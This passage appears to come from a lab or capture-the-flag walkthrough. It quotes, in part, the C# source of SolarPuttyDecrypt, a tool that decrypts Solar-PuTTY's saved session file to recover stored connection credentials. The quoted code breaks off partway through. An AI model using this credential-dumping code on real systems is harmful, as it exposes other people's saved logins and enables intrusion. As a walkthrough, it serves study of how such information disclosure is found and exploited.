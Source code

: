 A quick search, found an `exploit` through this [link](https://github.com/VoidSec/SolarPuttyDecrypt)  as it was vulnerable to information disclosure.    

This is the script written in `C#`.  

```C#
﻿using System;
using System.Linq;
using System.Text;
using System.IO;
using System.Security.Cryptography;
using Newtonsoft.Json;

namespace SolarPuttyDecrypt
{
    class Program
    {
        static void Main(string[] args)
        {
            if (args.Length == 0 || args==null)
            {
                Console.ForegroundColor = ConsoleColor.Cyan;
                Console.WriteLine("SolarPuttyDecrypt now will try to dump local sessions' file, otherwise enter SolarPutty's sessions file path and password.");
                Console.WriteLine("\nUsage: SolarPuttyDecrypt.exe C:\\session.dat pwd123 (use \"\" for empty password)");
                Console.ResetColor();
                //Environment.Exit(1);
            }
            string CurrDir = Environment.GetFolderPath(Environment.SpecialFolder.Desktop);
            Console.WriteLine("-----------------------------------------------------");
            Console.ForegroundColor = ConsoleColor.Green;
            Console.WriteLine("SolarPutty's Sessions Decrypter by VoidSec");
            Console.ResetColor();
            Console.WriteLine("-----------------------------------------------------");
            Console.ForegroundColor = ConsoleColor.Yellow;
            if(args.Length == 0 || args == null)
            {
                string ExportedDirectoryPath = Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData), "SolarWinds\\FreeTools\\Solar-PuTTY\\");
                string sessionfile = Path.Combine(ExportedDirectoryPath, "data.dat");
                DoImport(sessionfile, null, CurrDir);
            }
            else
            {
                DoImport(args[0], args[1], CurrDir);
            }
            Console.ResetColor();
            Console.WriteLine("-----------------------------------------------------");
            Console.ForegroundColor = ConsoleColor.Green;
            Console.WriteLine("[+] DONE Decrypted file is saved in: " + CurrDir + "\\SolarPutty_sessions_decrypted.txt");
            Console.ResetColor();
        }
        static void DoImport(string dialogFileName, string password, string CurrDir)
        {
            using (FileStream fileStream = new FileStream(dialogFileName, FileMode.Open))
            {
                using (StreamReader streamReader = new StreamReader(fileStream))
                {
                    string text = streamReader.ReadToEnd();
                    try
                    {
                        var text2 = (password == null) ? Crypto.Deob(text) : Crypto.Decrypt(password, text);
```